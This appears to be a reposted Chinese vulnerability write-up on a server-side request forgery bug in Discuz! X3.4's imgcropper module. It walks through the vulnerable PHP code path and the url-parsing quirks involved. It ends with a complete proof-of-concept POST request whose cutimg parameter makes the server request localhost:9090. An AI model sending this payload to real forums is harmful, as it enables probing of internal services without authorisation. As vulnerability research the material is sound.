

# Discuz x3.4 imgcropper ssrf

> 原文：[https://www.zhihuifly.com/t/topic/2875](https://www.zhihuifly.com/t/topic/2875)

# Discuz! X3.4 imgcropper ssrf

## 一、漏洞简介

对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求，总的来说比较鸡肋

## 二、漏洞影响

## 三、复现过程

`source/class/class_image.php` `image`类`init`方法：

```
 function init($method, $source, $target, $nosuffix = 0) {
        global $_G;

```
 $this-&gt;errorcode = 0;
    if(empty($source)) {
        return -2;
    }
    $parse = parse_url($source);
    if(isset($parse['host'])) {
        if(empty($target)) {
            return -2;
        }
        $data = dfsockopen($source);
        $this-&gt;tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');
        if(!$data || $source === FALSE) {
            return -2;
        }
        file_put_contents($source, $data);
    }
    ...... 
``` `}` 
```

再找哪些地方调用了`image`类的`init`方法，发现`image`类的`Thumb`、`Cropper`、`Watermark`方法都调用了`init`。比如`Thumb`：

```
 function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {
        $return = $this->init('thumb', $source, $target, $nosuffix);
        ......
    } 
```

所以再找哪些地方调用了`image`类的`Thumb`方法，最终发现：

`source/module/misc/misc_imgcropper.php` 52-57行：

```
 require_once libfile('class/image');
    $image = new image();
    $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];
    if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {
        showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));
    } 
```

下断点调试发现 `$_G['setting']['ftp']['attachurl']` 的值为 `/`，而 `$_G['setting']['attachurl']` 的值是 `data/attachment/`。所以似乎 `$prefix` 为 `/` 才有 SSRF 利用的可能。

一开始构造 `cutimg=/10.0.1.1/get`，这样 `$url` 的值就为 `//10.0.1.1/get`，按道理来说这应该算是一个正常的 url，但是结果却请求失败了。

仔细跟进 `_dfsockopen` 发现，在 PHP 环境安装有 cURL 时，进入 curl 处理的代码分支，直到这里：

```
curl_setopt($ch, CURLOPT_URL, $scheme.'://'.($ip ? $ip : $host).($port ? ':'.$port : '').$path); 
```

`$scheme`、`$host`、`$port`、`$path` 都是 `parse_url` 解析 url 参数后的对应的值，而对像 `//10.0.1.1/get` 这样的 url 解析时，`$scheme` 的值是 `null`，因此最后拼接的结果是 `://10.0.1.1/get`，没有协议，curl 最后对这种url的请求会自动在前面加上 `HTTP://`，结果就变成了请求 `HTTP://://10.0.1.1/get`，这种 url 在我的环境中会导致 curl 报错。

所以我去掉了 curl 扩展，让 `_dfsockopen` 函数代码走 socket 发包的流程，踩了 `parse_url` 和 Dz 代码的一些坑点（这里就不展开了，有兴趣的同学调下代码就知道了），最后发现像这样构造可以成功：

```
cutimg=/:@localhost:9090/dz-imgcropper-ssrf 
```

poc:

```
POST /misc.php?mod=imgcropper&picflag=2&cutimg=/:@localhost:9090/dz-imgcropper-ssrf HTTP/1.1
Host: ubuntu-trusty.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: xkmD_2132_sid=E5sbVr; xkmD_2132_saltkey=m6Y8022s; xkmD_2132_lastvisit=1521612483; xkmD_2132_lastact=1521624907%09misc.php%09imgcropper; xkmD_2132_home_readfeed=1521616105; xkmD_2132_seccode=1.ecda87c571707d3f92; xkmD_2132_ulastactivity=a0f4A9CWpermv2t0GGOrf8%2BzCf6dZyAoQ3Sto7ORINqJeK4g3xcX; xkmD_2132_auth=40a4BIESn2PZVmGftNQ2%2BD1ImxpYr0HXke37YiChA2ruG6OryhLe0bUg53XKlioysCePIZGEO1jmlB1L4qbo; XG8F_2132_sid=fKyQMr; XG8F_2132_saltkey=U7lxxLwx; XG8F_2132_lastvisit=1521683793; XG8F_2132_lastact=1521699709%09index.php%09; XG8F_2132_ulastactivity=200fir8BflS1t8ODAa3R7YNsZTQ1k262ysLbc9wdHRzbPnMZ%2BOv7; XG8F_2132_auth=3711UP00sKWDx2Vo1DtO17C%2FvDfrelGOrwhtDmwu5vBjiXSHuPaFVJ%2FC%2BQi1mw4v4pJ66jx6otRFKfU03cBy; XG8F_2132_lip=172.16.99.1%2C1521688203; XG8F_2132_nofavfid=1; XG8F_2132_onlineusernum=3; XG8F_2132_sendmail=1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36 `imgcroppersubmit=1&formhash=f8472648` 
```

此时 url 即为`//:@localhost:9090/dz-imgcropper-ssrf`。SSRF 请求成功：


通过这种方式进行构造利用的话，不太需要额外的限制条件（只要求服务端 PHP 环境没有安装 curl 扩展），但是只能发 HTTP GET 请求，并且服务端不跟随跳转。漏洞危害有限。

后来 l3m0n 师傅也独立发现了这个漏洞，并且他发现较高版本的 curl 是可以成功请求 `HTTP://:/` 的，较高版本的 curl 会将这种 url 地址解析到 127.0.0.1 的 80 端口：



最后他再利用之前 PHP `parse_url` 的解析 bug（ [https://bugs.php.net/bug.php?id=73192](https://link.zhihu.com/?target=https%3A//bugs.php.net/bug.php%3Fid%3D73192) ），及利用 `parse_url` 和 curl 对 url 的解析差异，成功进行 302 跳转到任意恶意地址，最后再 302 跳转到 gopher 就做到发送任意数据包。详情可以参考 l3m0n 的博客：

[Discuz x3.4前台SSRF - l3m0n - 博客园](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/iamstudy/articles/discuz_x34_ssrf_1.html)

但是这种利用方式对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求。总的来说，imgcropper SSRF 仍然比较鸡肋。